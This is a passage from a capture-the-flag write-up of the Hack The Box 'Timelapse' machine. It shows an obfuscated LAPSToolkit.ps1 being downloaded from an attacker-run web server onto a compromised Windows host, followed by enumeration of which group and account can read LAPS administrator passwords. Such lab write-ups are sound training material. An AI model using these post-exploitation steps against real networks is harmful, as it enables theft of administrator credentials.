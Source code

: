 **Then transfer the obfuscated `LAPSToolkit.ps1`:**
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Timelapse)-[2023.08.09|17:51:49(HKT)]
└> python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```
*Evil-WinRM* PS C:\Users\legacyy\Desktop> iwr -Uri http://10.10.14.6/LAPSToolkit.ps1 -OutFile LAPSToolkit.ps1
*Evil-WinRM* PS C:\Users\legacyy\Desktop> Import-Module .\LAPSToolkit.ps1
```

**Now we can use its functions!**

**Get groups that can read passwords:**
```shell
*Evil-WinRM* PS C:\Users\legacyy\Desktop> Find-LAPSDelegatedGroups

OrgUnit                                    Delegated Groups
-------                                    ----------------
OU=Domain Controllers,DC=timelapse,DC=htb  TIMELAPSE\LAPS_Readers
OU=Servers,DC=timelapse,DC=htb             TIMELAPSE\LAPS_Readers
OU=Database,OU=Servers,DC=timelapse,DC=htb TIMELAPSE\LAPS_Readers
OU=Web,OU=Servers,DC=timelapse,DC=htb      TIMELAPSE\LAPS_Readers
OU=Dev,OU=Servers,DC=timelapse,DC=htb      TIMELAPSE\LAPS_Readers
```

**Checks the rights on each computer with LAPS enabled for any groups with read access and users with "All Extended Rights":**
```
*Evil-WinRM* PS C:\Users\legacyy\Desktop> Find-AdmPwdExtendedRights

ComputerName       Identity               Reason
------------       --------               ------
dc01.timelapse.htb TIMELAPSE\LAPS_Readers Delegated
```

Hmm... It seems like the **domain group `LAPS_Readers` can read LAPS passwords**.

**We can check which member belongs to `LAPS_Readers` group:**
```shell
*Evil-WinRM* PS C:\Users\legacyy\Desktop> net groups LAPS_Readers
Group name     LAPS_Readers
Comment

Members

-------------------------------------------------------------------------------
svc_deploy
```

So, `svc_deploy` is a member of group `LAPS_Readers`.

That being said, **if we can authenticated as `svc_deploy` domain user, we can dump LAPS passwords!**
